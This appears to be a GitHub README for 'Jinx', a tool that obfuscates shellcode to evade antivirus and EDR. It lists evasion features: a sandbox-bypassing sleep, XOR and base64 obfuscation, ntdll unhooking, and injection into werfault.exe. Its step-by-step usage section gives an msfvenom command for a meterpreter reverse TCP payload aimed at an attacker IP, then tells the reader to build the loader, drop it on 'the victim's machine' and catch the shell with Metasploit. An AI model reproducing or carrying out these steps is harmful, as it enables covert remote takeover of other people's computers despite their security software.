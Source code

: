 # Jinx (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR.
[![Python 3.10.4](https://img.shields.io/badge/Python-3.10.4-yellow.svg)](https://www.python.org/) [![C++ 14](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/) [![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)

## Features
- Custom Sleep Function - to bypass sandbox
- Obfuscation - base64 encoding and xor encryption with randomly generated key
- DLL Unhooking - full unhook of ntdll.dll
- Process Injection - injecting the payload to werfault.exe

## Requirements
Jinx requires [Python3](https://www.python.org/) and [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/) to run.

## Usage
1. Clone the repository:
```bash
git clone <url>
```

2. Generate the shellcode. In this demonstration we will use msfvenom in a kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

3. Put the shellcode in the cloned repository and use the obfuscator.py tool to obfuscate it.<br>Note: Our shellcode then be obfuscated to - **obfuscatedPayload.bin** with the key - **key.bin** and saved in loader/Jinx.
```bash
python3 obfuscator.py shellcode
```

4. Open loader/Jinx.sln, the Visual Studio solution file.
5. Build The project (Recommended: change the build configuration from Debug to Release).<br>Note: The executable file will be located at loader/x64/Release/Jinx.exe or loader/x64/Debug/Jinx.exe, depends on the build configuration.



with the release option (optional) and drop the executable onto the victim's machine.

On the attacker's machine use metasploit's multi/handler on port 1337 and on the victim's machine execute Jinx.

## Authors and acknowledgment
[RonKon](https://github.com/RonKonis) - Development
<br>
[dkonis](https://github.com/dkonis) - Research & Development
<br>
[SheL3G](https://github.com/SheL3G) - Research

## License
Distributed under the MIT License. See LICENSE.txt for more information.
